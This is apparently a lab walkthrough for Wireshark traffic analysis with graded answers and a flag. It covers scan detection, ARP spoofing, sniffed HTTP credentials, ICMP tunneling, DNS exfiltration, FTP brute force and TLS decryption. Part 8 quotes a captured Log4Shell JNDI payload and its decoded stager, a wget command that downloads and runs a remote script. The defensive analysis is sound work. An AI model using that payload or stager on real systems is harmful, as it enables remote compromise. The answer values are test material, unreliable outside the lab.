# Wireshark: Traffic Analysis

**Type:** 🛠️ Tool Walkthrough

## Objective

Move beyond single-purpose filters and statistics tools into full traffic-analysis scenarios: detecting port scans, ARP-based MITM setup, cleartext credential harvesting, protocol tunneling, DNS exfiltration, FTP abuse, and decrypting TLS/HTTP2 traffic — plus Wireshark's built-in credential-hunting and firewall-rule-generation features.

---

## Tools Used

* **Wireshark 4.4.9** — display filters, Follow TCP Stream, Tools → Credentials, Tools → Firewall ACL Rules, TLS decryption
* **CyberChef** — Base64 decoding of an exfiltrated command

---

## Part 1 — Port Scan Detection

### TCP Connect Scan

**Filter:** `tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size > 1024`



A raw SYN (stealth) scan typically uses a fixed, often small TCP window size since the OS network stack never completes the handshake. A **TCP Connect scan**, by contrast, goes through the full OS socket API, so the window size reflects normal OS defaults (>1024) — that distinction is what this filter isolates.

**Q: Total number of TCP Connect scans?** → `1000`
**Q: Which scan type is used to scan TCP port 80?** → `TCP Connect` (visible in the packet list targeting port 80)

### UDP Port Scan — Closed vs. Open Ports

**Filter:** `icmp.type==3 and icmp.code==3`



An ICMP **Type 3 / Code 3 (Port Unreachable)** response is the host's way of saying "nothing is listening here" — a scanner uses the *absence* of this response to infer an open UDP port.

**Q: Number of "UDP close port" messages?** → `1083`

**Filter:** `udp.port >= 55 && udp.port <= 70`



Cross-referencing this range against the ICMP unreachable filter, every port produced a "port unreachable" reply **except port 68** (DHCP client) — no ICMP error for that port means it's open.

**Q: Which UDP port in the 55–70 range is open?** → `68`

---

## Part 2 — ARP-Based MITM Setup

**Filter:** `arp.opcode == 1 && eth.src == 00:0c:29:e2:18:b4`



A high volume of ARP **request** broadcasts from a single MAC address, especially without matching legitimate traffic patterns, is consistent with an attacker mapping the local network or preparing ARP spoofing to position themselves as a man-in-the-middle.

**Q: Number of ARP requests crafted by the attacker?** → `284`

---

## Part 3 — Cleartext Credential Harvesting

**Filter:** `eth.dst == 00:0c:29:e2:18:b4 && http`



With the attacker positioned as MITM (via the ARP activity above), HTTP traffic destined for their MAC address confirms they were successfully intercepting victim traffic.

**Q: Number of HTTP packets received by the attacker?** → `90`

**Filter:** `http.request.full_uri=="http://testphp.vulnweb.com/userinfo.php" and http.request.method==POST and urlencoded-form contains "uname"`



Narrowing to POST requests against the login endpoint containing a username field isolates every credential submission in the capture.

**Q: Number of sniffed username & password entries?** → `6`



Expanding the URL-encoded form data of one submission reveals the plaintext values — this traffic was never encrypted, which is exactly why HTTPS matters for login forms.

**Q: Password of "Client986"?** → `clientnothere!`



The same site also exposed a comment form; parsing its POST body the same way surfaces the message content.

**Q: Comment provided by "Client354"?** → `Nice work!`

---

## Part 4 — Supplementary Protocol Identification

These filters were practiced against separate captures (`dhcp-netbios.pcap`) to reinforce host- and identity-tracking techniques beyond the graded questions.

### DHCP Hostname Lookup

**Filter:** `dhcp.option.hostname contains "Galaxy"`



DHCP Option 12 (Host Name) is a quick way to attach a human-readable device name to a MAC/IP pairing during an investigation — useful when a suspicious IP needs to be tied back to a physical device.

### NetBIOS Name Registration

**Filter:** `nbns.name contains "LIVALJM" && nbns.flags in {0x2810 0x2910}`



NBNS registration broadcasts reveal Windows hostnames announcing themselves on the local segment — another host-attribution technique alongside DHCP.

### DHCP Requested IP + Vendor Class

**Filter:** `dhcp.option.requested_ip_address == 172.16.13.85`



The DHCP option fields also expose the vendor class identifier (`android-dhcp-11`) and Option 12 hostname (`Galaxy-A12`) together — enough to fingerprint the device type, not just its name.

### Kerberos AS-REQ (Authentication Request)

**Filter:** `kerberos.CNameString == "u5"`



Filtering on the client name string in a Kerberos AS-REQ isolates the initial authentication request for a specific user account — the starting point of the Kerberos ticket exchange.

### Kerberos TGS-REP (Machine Account)

**Filter:** `(kerberos.CNameString contains "$")`



A trailing `$` in a Kerberos principal name identifies a **machine account** rather than a user account — useful for distinguishing service/computer authentication from human logins when hunting for lateral movement.

---

## Part 5 — ICMP Tunneling Detection

**File:** `icmp-tunnel.pcap`



Inspecting the payload of anomalous ICMP packets (ICMP is not supposed to carry large, structured payloads) revealed key-exchange algorithm strings (`diffie-hellman-group-exchange`, `ssh-rsa`, `ssh-dss`) — the signature of an SSH handshake being smuggled inside ICMP echo packets to bypass firewalls that only inspect for open SSH ports.

**Q: Which protocol is used in ICMP tunnelling?** → `SSH`

---

## Part 6 — DNS Exfiltration Detection

**File:** `dns.pcap`



The query name `BA7C01B0DE682B2B4554B6000101E88144.dataexfil.com` is a strong exfiltration indicator: a long, high-entropy subdomain label is a classic pattern for encoding stolen data into DNS queries sent to an attacker-controlled domain, since DNS traffic is rarely blocked outbound.

**Q: Suspicious main domain receiving anomalous DNS queries?** → `dataexfil[.]com`

---

## Part 7 — FTP Brute Force & Malicious Upload

**File:** `ftp.pcap`



**Filter:** `ftp.response.code == 530`

A wall of `530 Login incorrect` responses from the same source is a textbook brute-force pattern against an FTP service.

**Q: Number of incorrect login attempts?** → `737`



**Filter:** `ftp.response.code == 213`

Once authenticated, the FTP `SIZE` command (response code 213) reports the exact byte count of a file before transfer.

**Q: Size of the file accessed by the "ftp" account?** → `39424`



**Follow TCP Stream** on the relevant session shows the full FTP command sequence: `EPSV` → `RETR resume.doc` → `150 Opening BINARY mode data connection for resume.doc (39424 bytes)` → `226 Transfer complete`.

**Q: Filename uploaded by the adversary?** → `resume.doc`



Continuing the same stream: `SITE CHMOD 777 resume.doc` → `550 resume.doc: Permission denied`. The adversary attempted to make the uploaded file world-executable — a common step after dropping a malicious file, denied here by server permissions.

**Q: Command used to change the uploaded file's permissions?** → `CHMOD 777`

---

## Part 8 — Notable Finding: Log4Shell (CVE-2021-44228) Exploitation Attempt

While reviewing HTTP User-Agent strings for anomalies, two findings stood out beyond the graded questions and are documented here as they're a strong real-world detection example.



Adding the User-Agent column to the packet list makes it easy to scan for automated tools and malformed values across many requests at once.



One request's User-Agent reads `Mozila/5.0` — missing the second "l". Legitimate browsers never misspell their own product tokens; a typo like this is a strong signal the request came from a script or scanning tool spoofing a browser string, not an actual browser.



**Filter:** `http.request.method == "POST"`

Scanning POST requests by User-Agent surfaced one entry containing a JNDI LDAP reference instead of a normal browser string.



The full User-Agent header reads:
`${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2gvY2htb2QgK3ggbGguc2gvLi9saC5zaAo=}`

This is the signature exploitation pattern for **Log4Shell (CVE-2021-44228)** — a JNDI lookup injected into any logged field (here, the User-Agent header) that a vulnerable Log4j instance will resolve, triggering a remote class load and command execution.



Decoding the embedded Base64 command reveals the actual payload:

```
wget http://62.210.130.250/lh.sh;chmod +x lh.sh;./lh.sh
```

This downloads a shell script from an attacker-controlled IP, makes it executable, and runs it — a classic stager pattern for gaining a foothold on a vulnerable host. This finding demonstrates why logging infrastructure (not just web servers) needs to be included in vulnerability management for CVE-2021-44228.

---

## Part 9 — TLS Handshake & HTTP/2 Decryption

**Filter:** `(http.request or tls.handshake.type == 1) and !(ssdp)`



Even without decrypting TLS, the **Client Hello**'s SNI (Server Name Indication) field is sent in plaintext, revealing the intended destination hostname before encryption begins — useful for host-based visibility even on encrypted connections.

**Q: Frame number of the Client Hello sent to accounts.google.com?** → `16`

After loading the session key log (`KeysLogFile.txt`) into Wireshark's TLS protocol preferences, previously opaque TLS records decode into their underlying HTTP/2 frames.

**Q: Number of HTTP2 packets after decryption?** → `115`



Inspecting Frame 322's decoded HTTP/2 headers shows the `:authority` pseudo-header — HTTP/2's equivalent of the HTTP/1.1 `Host` header.

**Q: Authority header of the HTTP2 packet at Frame 322?** → `safebrowsing[.]googleapis[.]com`

**Q: Flag found in the decrypted packets?** → `FLAG{THM-PACKETMASTER}`

---

## Bonus 1 — Hunting Cleartext Credentials with Wireshark's Credentials Tool

Manually spotting every credential submission across a large capture is slow. Since Wireshark v3.1, `Tools → Credentials` automatically extracts cleartext usernames/passwords from supported protocol dissectors (FTP, HTTP, IMAP, POP, SMTP).



The window lists every detected credential with its packet number, protocol, and username — clicking an entry jumps straight to that packet, dramatically speeding up triage compared to filtering protocol-by-protocol.



**Q: Packet number of credentials using "HTTP Basic Auth"?** → `237`



Scanning the list also flags weaker cases, like a submitted **empty password** — often overlooked in manual review but easy to spot once every credential is laid out as a list.

**Q: Packet number where an empty password was submitted?** → `170`

**Important caveat:** this feature only supports specific dissectors and is not a substitute for manual inspection — credentials sent via other protocols or custom application logic won't be flagged automatically.

---

## Bonus 2 — Generating Firewall ACL Rules

Beyond analysis, Wireshark can turn a selected packet's addressing info directly into ready-to-deploy firewall rules via `Tools → Firewall ACL Rules`, supporting Netfilter (iptables), Cisco IOS, IPFilter, IPFirewall (ipfw), Packet Filter (pf), and Windows Firewall formats.



Selecting a packet and choosing a target format instantly generates rule variants for source IP, destination IP, source port, destination port, and combinations of each — ready to copy into the target firewall's syntax.



**Q: Rule for denying the source IPv4 address (packet 99, IPFirewall/ipfw)?** → `add deny ip from 10.121.70.151 to any in`



**Q: Rule for allowing the destination MAC address (packet 231, IPFirewall rules)?** → `add allow MAC 00:d0:59:aa:af:80 any in`

This closes the loop between detection and response — an analyst can go from "found the malicious host" to "here's the rule to block it" without leaving Wireshark.

---

## Key Takeaways

* **Scan detection** relies on subtle signals — TCP window size distinguishes Connect scans from stealth SYN scans; the *absence* of an ICMP unreachable reply flags an open UDP port.
* **ARP request volume** from a single source is a reliable indicator of network reconnaissance or MITM staging.
* Cleartext protocols (unencrypted HTTP login forms, FTP) leak credentials in plain sight — Wireshark's **Credentials tool** turns manual hunting into a one-click list.
* **Tunneling and exfiltration** hide inside protocols not usually inspected for payload content — ICMP carrying an SSH handshake, or DNS queries carrying encoded data in high-entropy subdomains.
* A misspelled or non-standard **User-Agent string** is a low-effort, high-value anomaly to scan for — it flagged both a scanning tool and, in this case, an active **Log4Shell (CVE-2021-44228)** exploitation attempt.
* Even encrypted TLS traffic leaks the destination hostname via the **Client Hello SNI field** — full content requires the session key log, but host visibility doesn't.
* Wireshark isn't limited to analysis: **Tools → Firewall ACL Rules** converts a finding directly into a deployable blocking rule, connecting detection to response.
